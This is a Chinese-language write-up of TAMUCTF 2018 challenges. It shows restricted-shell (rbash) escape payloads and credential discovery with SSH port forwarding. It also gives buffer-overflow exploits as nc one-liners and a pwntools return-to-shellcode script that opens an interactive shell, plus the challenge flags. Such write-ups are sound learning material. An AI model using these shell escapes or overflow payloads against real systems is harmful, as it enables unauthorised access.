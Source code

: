 ```yaml
---
title: TAMUCTF-2018
tags:
    - Write-up
    - tamuctf
lang: zh-tw
cotegories:
    - Write-up
    - tamuctf
    - 2018
author: racterub
---
```


太多情境題了
web 滿滿的水題有點無言
只寫一些值得紀錄的

## Misc
### you can run, you can hide [25]

```
find the hidden flag.

ssh tamuctf@shell1.ctf.tamu.edu -p 2223
password: tamuctf
```

ssh 進去之後發現他是用`rbash`，意外在網路上找到神奇 payload (到現在還不知道原理)
`BASH_CMDS[a]=/bin/sh;a`
[Source](https://www.cnblogs.com/xiaoxiaoleo/p/8450379.html)

目錄裡面直接就有flag了
`gigem{TAMU_secret_society_qSD358OUYGcezTlFbqeh}`

後面神隊友給了另一個 payload (在看連入的連線的時候發現好像大部分都是這樣連入的)
`ssh tamuctf@shell1.ctf.tamu.edu -p 2223 -t "bash --noprofile"`

### enum [150]

```
Find the hidden flag.
You do not need to bruteforce. Don't do it.

ssh tamuctf@shell2.ctf.tamu.edu -p 2222
password: tamuctf
```

這題卡很久，最後靠隊友 carry
連續前面一題，繞過之後我一開始在`/var/backups/`找到`.srv.bak`，裡面放了帳號跟密碼
後來就是隊友carry的部分了
用`ps aux`指令發現有一個程序是執行`/bin/bash -c /usr/sbin/service ssh restart && cd /.administrators && /usr/bin/python /.administrators/pyserver.py 9000`
後來在自己的電腦執行`ssh -L 1234:localhost:9000 tamuctf@shell2.ctf.tamu.edu -p 2222`(port forwarding)，在自己的瀏覽器開啟`localhost:1234`再輸入之前找到的帳號密碼就可以得到 flag 了
`gigem{pivot_piv0t_P1V0T_20975430987aff92qf89qf}`

## Pwn
### Pwn1
只是覆蓋`cmp    DWORD PTR [ebp-0xc],0xf007ba11`而已

Payload:
```
python -c "print 'a'*23 + '\x11\xba\x07\xf0'" | nc pwn.ctf.tamu.edu 4321
```

### Pwn2
執行`echo`函式時，可以 Overflow 跳到`print_flag`

Payload:
```
python -c "print 'a'*243 + '\x4b\x85\x04\x08'" | nc pwn.ctf.tamu.edu 4322
```

### Pwn3
觀察了一下會發現輸出的 random number 會是 buffer 的起始地址，所以方向就很清楚了 `return to shellcode`

Payload:
{% codeblock lang:python %}
#!/usr/bin/env python

from pwn import *

#r = process('./pwn3')
#r = remote('0.0.0.0', 8888)
r = remote('pwn.ctf.tamu.edu', 4323)
context.log_level = 'debug'
context.arch = 'i386'

r.recvuntil('Your random number ')
addr = int(r.recv(10).strip(), 16)

shellcode = asm(shellcraft.i386.linux.sh())

payload = shellcode + 'a' * (242-len(shellcode)) + p32(addr)

print hex(addr)
print p32(addr)
print payload

r.recvuntil('?')
#raw_input('########')
r.sendline(payload)
r.interactive()
{% endcodeblock %}

